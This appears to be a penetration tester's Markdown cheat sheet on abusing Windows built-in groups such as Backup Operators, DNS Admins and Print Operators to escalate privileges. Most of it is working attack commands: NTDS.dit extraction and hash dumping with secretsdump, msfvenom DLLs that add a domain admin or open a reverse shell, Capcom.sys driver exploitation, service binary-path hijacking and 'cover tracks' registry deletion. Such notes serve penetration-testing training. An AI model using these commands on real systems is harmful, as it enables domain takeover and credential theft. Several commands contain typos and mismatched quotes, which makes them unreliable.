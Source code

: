 Backup Operators 
	[SeBackup Privilege]([https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges))
		Allows to traverse any folder and list contents and copy a file from a folder even with no ACE. 
		Need to copy the data specifying the [FILE_FLAG_BACKUP_SEMANTICS](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
			Exploiting privilege 
			https://github.com/giuliano108/SeBackupPrivilege
			Import the Libraries:
				`Import-Module .\SeBackupPrivilegeUtils.dll`
				`Import-Module .\SeBackupPrivilegeCmdLets.dll`
			Turn on the privileges 
				`whoami /priv`
				`Get-SeBackupPrivilige`
				`Set-SeBackupPrivilege`
			Copy a protected file 
				`Copy-FileSeBackupPrivilege '<path to file>' .\<filename>.txt`
			Read the file
			Use [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) to attack a domain controller with NTDS.dit
				Contains all the NTLM hashes for all users in the domain.
				Use diskshadow utility to create a copy of the C drive and expose it in the E drive
				`diskshadow.exe`
				`set verbose on`
				`set metadata`
				`set context clientaccesible`
				`set contect persistent`
				`begin backup`
				`add volume C: alias cdrive`
				`create`
				`expose %cdrive%` E:
				`end backup`
				`exit`
				`dir E:`	`
			Bypass the ACL and copy the NTDS locally
				`Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit`
			Extract credentials from NTDS.dit
				`Import-Module .\DSInternals.psd1`
				`$key = Get-BootKey -SystemHivePath .\SYSTEM'
				`Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key`
				Using SecretsDump.py
					`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL'
				CopyFiles with Robocopy
					`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`
		Backup the SAM and SYSTEM registry hives.
			`reg save HKLM\SYSTEM SYSTEM.SAV`
			`reg save HKLM\SAM SAM.SAV`
[Event Log Readers](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers>)
	Confirm group membership 
		`net localgroup "Event Log Readers"`
	Query windows events using [wevutil (CMD)](<Windows/PrivEsc/Windows Group Privileges.md>) Or [Get-WinEvent(PS)](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.3&viewFallbackFrom=powershell-7.1)
		Search for security Logs. 
			CMD
				`wevtutil qe Security /rd:true /f:text | Select-String "/user"
			Powershell
				`Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`
		Pass Credentials to wevutil 
			`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
DNS Admins
	DNS service runs as "NT AUTHORITY/ SYSTEM"
	Use [DNSCMD](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)to run an [exploit](https://adsecurity.org/?p=4064)
		Explanation
			DNS management is performed over RPC 
			[ServerLevelPluginDLL](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows custom DLL with no verification to be loaded in with [dnscmd](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) tool from CLI.	`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` populates a registry key.
			When the DNS service is restarted the DLL path will be loaded. Custom DLL can obtain a reverse shell. 
			Very destructive action.
		Running the exploit:
			Generate malicious DLL:
				`msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll'
				`msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= --platform=windows -f dll > reverseshell.dll`
			Transfer file across to target 
			Load DLL as Non-Privileged User:
				Only DnsAdmins can do this.
				`dnscmd.exe /config /serverlevelplugindll <path to dll>
			Load DLL as member of DnsAdmins:
				`Get-ADGroupMember -Identity DnsAdmins`
			Load Custom DLL:
				` dnscmd.exe /config /serverlevelplugindll <path to dll>
				(Must specify full path)
			Find Users SID
				`wmic useraccount where name="netadm" get sid`
			Check permissions on DNS service
				`sc.exe sdshow DNS`
					[Understand the output](https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/)
			Stop the DNS service
				`sc stop dns
			Start the DNS service
				`sc start dns`
			Confirm account has been added to the Domain Admins
				`net group "Domain Admins" /dom`
			Check DNS
				`sc query` 
		Cleaning up:
			Confirm registry key is added 
				`reg query \\<ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`
			Delete Registry key 
				`reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll`
			Start the DNS service again
				`sc.exe start dns`
			Check the DNS 
				`sc query dns`
		[Exploit](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) using [Mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)
			Modify this [file](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) to execute a reverse shell one-liner 
		Exploit using a WPAD Record 
			Allows disabling of [global query block security](https://learn.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps)
			Running the exploit
				Disable the global query block list
					`Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`
				Add a WDAP record 
					`Add-DnsServerResourceRecordA -Name wpad -ZoneName <domain name>.local -ComputerName dc01.<domain name>.local -IPv4Address <ip>`
[Hyper-V Administrators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#hyper-v-administrators)
	Full access to [Hyper-V Features](https://learn.microsoft.com/en-us/windows-server/manage/windows-admin-center/use/manage-virtual-machines)
	If the DC is visualised then they should be considered domain admins
		Make a clone of the DC 
		[Exploit](https://decoder.cloud/2020/01/20/from-hyper-v-admin-to-system/) using 
			[CVE-2018-0952](https://www.exploit-db.com/exploits/45244)
			[CVE-2019-0841](https://www.exploit-db.com/exploits/46683)
	Target File
		Update this [exploit](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1) to grant full user permissions on a file
		Take ownership of the file:
			`takeown /F <file path>
		Replace the file with malicious version of the file
			`sc.exe start <malicous file>`
		PRE MARCH 2020
[Print Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#print-operators)
	SeLoadDriverPrivilige
		Manage, create, share and delete printers. 
		Capcom.sys 
			Allow any user to execute shell code with SYSTEM privileges. 
			Load the [driver](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp)
			Download it locally and edit:
				Whoami /priv
					If SeLoadDriver is not present need to bypass [UAC](https://github.com/hfiref0x/UACME) or load CMD as admin
				Paste:
					```#include <windows.h>
					#include <assert.h>
					#include <winternl.h>
					#include <sddl.h>
					#include <stdio.h>
					#include "tchar.h"```
				Compile with cl.exe
					`cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`
				[Download](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) and save to C:\temp.
				Add reference to driver
					`reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
					`reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`
				Verify Driver is not loaded using [DriverView](http://www.nirsoft.net/utils/driverview.html)
					`.\DriverView.exe /stext drivers.txt
					`cat drivers.txt | Select-String -pattern Capcom`
				Verify Privilege is Enabled 
					`EnableSeLoadDriverPrivilege.exe`
				Verify Capcom Driver is listed
					`.\DriverView.exe /stext drivers.txt
					`cat drivers.txt | Select-String -pattern Capcom`				
				Use [ExploitCampcom.exe](https://github.com/tandasat/ExploitCapcom) to escalate privileges.
					GUI
						`.\ExploitCapcom.exe`
					NO GUI 
						Modify campcom.cpp before compiling.
							Edit line 292 and replace C:\\Windows\\ System32\\cmd.exe with a msfvenom reverseshell.exe
						`TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");`
		Automating [EopLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)
			`EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
	Cover tracks
		Remove Registry Key
			`reg delete HKCU\System\CurrentControlSet\Capcom`
[Server Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#bkmk-serveroperators)
	Allows members to administer servers without needed domain admin
	SeBackupPrivilige 
	SeRestorePrivilige 
	Exploit these privileges to control local services: 
		Query the app readiness service
			`sc qc AppReadiness`
			Check run as Local System
		Check Service Permissions using PsService
			`<Directory>\PsService.exe security AppReadiness`
			SERVICE_ALL_ACCESS ? Full control over service. 
			ALLOW NT AUTHORITY\ SYSTEM
		Check Local Admin Group 
			`net localgroup Administrators`
		Modify the Service Binary Path 
			`sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`
		Start the Service 
			`sc start AppReadiness`
		Confirm Admin Access 
			`net localgroup Administrators`
		Confirm Local Admin access on DC
			on kali machine:
			`crackmapexec smb <IP> -u server_adm -p <password>`
		 Retrieve NTLM hashes from DC 
			 on Kali:
			`secretsdump.py server_adm<IP> -just-dc-user administrator`
			